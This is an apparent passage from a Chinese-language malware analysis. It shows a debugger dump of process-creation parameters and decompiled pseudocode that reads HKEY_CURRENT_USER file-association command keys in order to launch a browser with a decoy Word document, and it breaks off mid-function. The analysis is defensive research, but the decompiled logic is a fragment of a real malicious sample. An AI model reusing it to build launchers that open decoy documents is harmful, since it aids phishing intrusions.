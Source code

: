 ```c
$-94     > 00000000  |pThreadSecurity = NULL
$-90     > 00000000  |InheritHandles = FALSE
$-8C     > 00000000  |CreationFlags = 0
$-88     > 00000000  |pEnvironment = NULL
$-84     > 00000000  |CurrentDir = NULL
$-80     > 0036F92C  |pStartupInfo = 0036F92C
$-7C     > 0036F974  \pProcessInfo = 0036F974

在存在HKEY_CURRENT_USER中项值时调用360se.exe  “2019年第一季度工作方向附表.docx”

sub_1000BBA0(&lpSubKey, L"Software\\Classes\\", (int)&v57);
  LOBYTE(v77) = 1;
  v50 = (signed int)&phkResult;
  v49 = 131097;
  v4 = &lpSubKey;
  if ( v67 >= 8 )
    v4 = (void *)lpSubKey;
  if ( !RegOpenKeyExW(HKEY_CURRENT_USER, (LPCWSTR)v4, 0, v49, (PHKEY)v50) )//项值判断
  {
    v51 = &v45;
    v50 = 7;
    v49 = 0;
    LOWORD(v45) = 0;
    sub_1000B200((int)&v45, (void *)&ValueName, 0);
    LOBYTE(v77) = 2;
    v44 = 7;
    v43 = 0;
    v39 = 0;
    sub_1000A5D0(&v39, (int)&lpSubKey, 0, -1);
    LOBYTE(v77) = 1;
    sub_10003560(
      &v63,
      HKEY_CURRENT_USER,
      *(LPCWSTR *)&v39,
      v40,
      v41,
      v42,
      v43,
      v44,
      (LPCWSTR)v45,
      v46,
      v47,
      v48,
      v49,
      v50);
    LOBYTE(v77) = 3;
    v5 = sub_1000BBA0(&v71, L"Software\\Classes\\", (int)&v63); //读取调用参数
    LOBYTE(v77) = 4;
    sub_1000BC90(&v68, v5, L"\\shell\\open\\command");
    LOBYTE(v77) = 6;
    if ( v73 >= 8 )
      j__free(v71);
    v50 = (signed int)&phkResult;
    LOWORD(v71) = 0;
    v49 = 131097;
    v6 = &v68;
    if ( v70 >= 8 )
      v6 = (void *)v68;
    v73 = 7;
    v72 = 0;
    if ( !RegOpenKeyExW(HKEY_CURRENT_USER, (LPCWSTR)v6, 0, v49, (PHKEY)v50) )
    {
      hKey = (HKEY)&v45;
```